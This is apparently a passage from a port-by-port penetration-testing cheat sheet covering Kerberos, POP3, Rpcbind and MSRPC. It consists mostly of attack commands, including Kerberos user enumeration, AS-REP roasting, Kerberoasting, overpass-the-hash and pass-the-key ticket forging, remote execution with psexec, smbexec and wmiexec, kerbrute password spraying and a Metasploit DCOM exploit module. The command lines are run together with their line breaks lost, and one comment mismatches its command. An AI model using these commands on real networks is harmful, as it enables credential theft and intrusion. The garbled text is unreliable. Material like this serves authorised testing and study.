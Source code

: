 ```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN.LOCAL'" IPuse auxiliary/gather/kerberos_enumusers # MSF# Check for Kerberoasting:GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john# GetUserSPNsASREPRoast:impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file># Kerberoasting:impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file># Overpass The Hash/Pass The Key (PTK):python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>python3 getTGT.py <domain_name>/<user_name>:[password]# Using TGT key to excute remote commands from the following impacket scripts:python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-passpython3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-passpython3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass# <https://www.tarlogic.com/blog/como-funciona-kerberos/># <https://www.tarlogic.com/blog/como-atacar-kerberos/>python kerbrute.py -dc-ip IP -users /root/htb/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain DOMAIN -outputfile kb_extracted_passwords.txt# <https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/># <https://github.com/GhostPack/Rubeus># <https://github.com/fireeye/SSSDKCMExtractor># <https://gitlab.com/Zer1t0/cerbero>
```

## Port 110 - Pop3

```
telnet 10.11.1.111USER pelle@10.11.1.111PASS admin# or:USER pellePASS admin# List all emailslist# Retrieve email number 5, for exampleretr 9
```

## Port 111 - Rpcbind

```
rpcinfo -p 10.11.1.111rpcclient -U "" 10.11.1.111    srvinfo    enumdomusers    getdompwinfo    querydominfo    netshareenum    netshareenumall
```

## Port 135 - MSRPC

Some versions are vulnerable.

```
nmap 10.11.1.111 --script=msrpc-enummsf > use exploit/windows/dcerpc/ms03_026_dcom# Endpoint Mapper Service Discoveryuse auxiliary/scanner/dcerpc/endpoint_mapper\#Hidden DCERPC Service Discoveryuse auxiliary/scanner/dcerpc/hidden# Remote Management Interface Discoveryuse auxiliary/scanner/dcerpc/management# DCERPC TCP Service Auditoruse auxiliary/scanner/dcerpc/tcp_dcerpc_auditorimpacket-rpcdump# Enum network interface# <https://github.com/mubix/IOXIDResolver>
```

|   |   |   |   |
|---|---|---|---|
|Named pipe|Description|Service or process|Interface identifier|

|   |   |   |   |
|---|---|---|---|
|atsvc|[atsvc](https://web.archive.org/web/20171012160520/http://www.hsc.fr/ressources/articles/win%5C_net%5C_srv/msrpc%5C_scheduler.html) interface (Scheduler service)|mstask.exe|1ff70682-0a51-30e8-076d-740be8cee98b v1.0|
